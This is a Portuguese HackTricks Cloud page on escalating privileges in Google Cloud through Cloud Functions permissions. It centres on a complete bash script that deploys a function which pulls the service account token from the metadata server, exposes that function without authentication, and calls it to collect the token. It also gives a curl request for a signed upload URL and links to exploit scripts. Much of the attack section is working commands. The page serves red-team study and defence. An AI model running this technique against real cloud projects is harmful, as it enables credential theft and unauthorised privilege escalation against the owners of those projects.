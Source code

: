# GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Mais informações sobre Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Um atacante com esses privilégios pode **criar uma nova Cloud Function com código arbitrário (malicioso) e atribuí-la a uma Service Account**. Em seguida, vazar o token da Service Account a partir dos metadados para escalar privilégios para ela.\
Alguns privilégios para acionar a função podem ser necessários.

Scripts de exploração para este método podem ser encontrados [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) e [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) e o arquivo .zip pré-construído pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Um atacante com esses privilégios pode **modificar o código de uma Function e até mesmo modificar a service account anexada** com o objetivo de exfiltrar o token.

{% hint style="danger" %}
Para implantar funções em nuvem, você também precisará de permissões actAs sobre a service account de computação padrão ou sobre a service account que é usada para construir a imagem.
{% endhint %}

Alguns privilégios extras, como a permissão `.call` para a versão 1 de cloudfunctions ou o papel `role/run.invoker` para acionar a função, podem ser necessários.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Se você receber o erro `Permission 'run.services.setIamPolicy' denied on resource...` é porque você está usando o parâmetro `--allow-unauthenticated` e não tem permissões suficientes para isso.
{% endhint %}

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Com esta permissão, você pode obter uma **URL assinada para poder fazer o upload de um arquivo para um bucket de função (mas o código da função não será alterado, você ainda precisa atualizá-lo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Não tenho certeza de quão útil apenas esta permissão é do ponto de vista de um atacante, mas é bom saber.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dê a si mesmo qualquer um dos **`.update`** ou **`.create`** privilégios anteriores para escalar.

### `cloudfunctions.functions.update`

Ter apenas permissões de **`cloudfunctions`**, sem **`iam.serviceAccounts.actAs`**, você **não poderá atualizar a função, ENTÃO ISTO NÃO É UM VÁLIDO PRIVESC.**

### Permissões de Escrita no Bucket

Você pode pensar que um atacante com **permissões de escrita sobre o bucket** onde o código das Cloud Functions está armazenado poderá **modificar o código sobrescrevendo** o `function_code.zip` e então fazer a função **executar código arbitrário**.

{% hint style="success" %}
**No entanto, isso não é verdade, apenas sobrescrever o código dentro do bucket não modificará o código que está sendo executado.**
{% endhint %}

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
